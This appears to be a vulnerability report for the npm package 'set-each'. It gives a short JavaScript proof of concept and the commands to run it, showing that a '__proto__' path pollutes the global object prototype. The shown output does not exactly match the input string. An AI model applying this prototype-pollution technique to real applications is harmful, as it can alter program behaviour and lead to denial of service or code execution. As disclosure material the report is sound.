 # Description

`set-each` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var setEach = require("set-each")
const obj = [{}]
console.log("Before : " + {}.polluted); 
setEach.setEach(obj, 'Yes! Its Polluted', '__proto__.polluted')
console.log("After : " + {}.polluted);
```
2. Execute the following commands in another terminal:

```
npm i set-each # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! It's Polluted
```
